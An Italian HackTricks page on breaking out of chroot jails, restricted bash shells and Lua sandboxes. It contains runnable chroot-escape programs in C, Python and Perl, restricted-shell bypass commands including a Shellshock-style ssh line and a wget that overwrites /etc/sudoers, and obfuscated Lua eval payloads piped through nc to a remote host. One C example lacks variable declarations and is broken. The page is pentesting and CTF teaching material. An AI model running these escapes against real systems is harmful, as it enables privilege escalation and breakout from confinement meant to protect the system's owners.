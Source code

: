 # Uscire dalle Carceri

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## **GTFOBins**

**Cerca in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **se puoi eseguire qualche binario con la proprietà "Shell"**

## Uscite Chroot

Da [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Il meccanismo chroot **non è destinato a difendere** contro manomissioni intenzionali da parte di **utenti privilegiati** (**root**). Su la maggior parte dei sistemi, i contesti chroot non si sovrappongono correttamente e i programmi chrooted **con privilegi sufficienti possono eseguire un secondo chroot per uscire**.\
Di solito questo significa che per uscire devi essere root all'interno del chroot.

{% hint style="success" %}
Il **tool** [**chw00t**](https://github.com/earthquake/chw00t) è stato creato per abusare dei seguenti scenari e scappare da `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Se sei **root** all'interno di un chroot puoi **uscire** creando **un altro chroot**. Questo perché 2 chroot non possono coesistere (in Linux), quindi se crei una cartella e poi **crei un nuovo chroot** su quella nuova cartella essendo **fuori di essa**, ora sarai **fuori dal nuovo chroot** e quindi sarai nel FS.

Questo si verifica perché di solito chroot NON sposta la tua directory di lavoro in quella indicata, quindi puoi creare un chroot ma essere fuori di esso.
{% endhint %}

Di solito non troverai il binario `chroot` all'interno di una prigione chroot, ma **potresti compilare, caricare ed eseguire** un binario:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Questo è simile al caso precedente, ma in questo caso l'**attaccante memorizza un descrittore di file nella directory corrente** e poi **crea il chroot in una nuova cartella**. Infine, poiché ha **accesso** a quel **FD** **fuori** dal chroot, vi accede e **escapa**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD può essere passato attraverso Unix Domain Sockets, quindi:

* Crea un processo figlio (fork)
* Crea UDS in modo che il genitore e il figlio possano comunicare
* Esegui chroot nel processo figlio in una cartella diversa
* Nel processo genitore, crea un FD di una cartella che si trova al di fuori del nuovo chroot del processo figlio
* Passa a quel processo figlio quell'FD utilizzando l'UDS
* Il processo figlio cambia directory in quell'FD, e poiché è al di fuori del suo chroot, sfuggirà alla prigione
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Montare il dispositivo root (/) in una directory all'interno del chroot
* Chroot in quella directory

Questo è possibile in Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Montare procfs in una directory all'interno del chroot (se non è già stato fatto)
* Cerca un pid che ha un'entrata root/cwd diversa, come: /proc/1/root
* Chroot in quella voce
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Crea un Fork (processo figlio) e chroot in una cartella diversa più in profondità nel FS e CD su di essa
* Dal processo genitore, sposta la cartella in cui si trova il processo figlio in una cartella precedente al chroot dei figli
* Questo processo figlio si troverà al di fuori del chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Tempo fa gli utenti potevano eseguire il debug dei propri processi da un processo di se stessi... ma questo non è più possibile per impostazione predefinita
* Comunque, se è possibile, potresti ptrace in un processo ed eseguire un shellcode al suo interno ([vedi questo esempio](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Ottieni informazioni sulla prigione:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modifica PATH

Controlla se puoi modificare la variabile di ambiente PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Usare vim
```bash
:set shell=/bin/sh
:shell
```
### Crea script

Controlla se puoi creare un file eseguibile con _/bin/bash_ come contenuto
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Ottieni bash da SSH

Se stai accedendo tramite ssh, puoi usare questo trucco per eseguire una shell bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Dichiarare
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Puoi sovrascrivere ad esempio il file sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Altri trucchi

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Potrebbe essere interessante anche la pagina:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Carceri Python

Trucchi su come evadere dalle carceri python nella seguente pagina:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Carceri Lua

In questa pagina puoi trovare le funzioni globali a cui hai accesso all'interno di lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval con esecuzione di comandi:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Alcuni trucchi per **chiamare funzioni di una libreria senza usare i punti**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Elenca le funzioni di una libreria:
```bash
for k,v in pairs(string) do print(k,v) end
```
Nota che ogni volta che esegui la riga di comando precedente in un **ambiente lua diverso, l'ordine delle funzioni cambia**. Pertanto, se hai bisogno di eseguire una funzione specifica, puoi eseguire un attacco di forza bruta caricando diversi ambienti lua e chiamando la prima funzione della libreria:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Ottieni una shell lua interattiva**: Se sei all'interno di una shell lua limitata, puoi ottenere una nuova shell lua (e sperabilmente illimitata) chiamando:
```bash
debug.debug()
```
## Riferimenti

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Diapositive: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
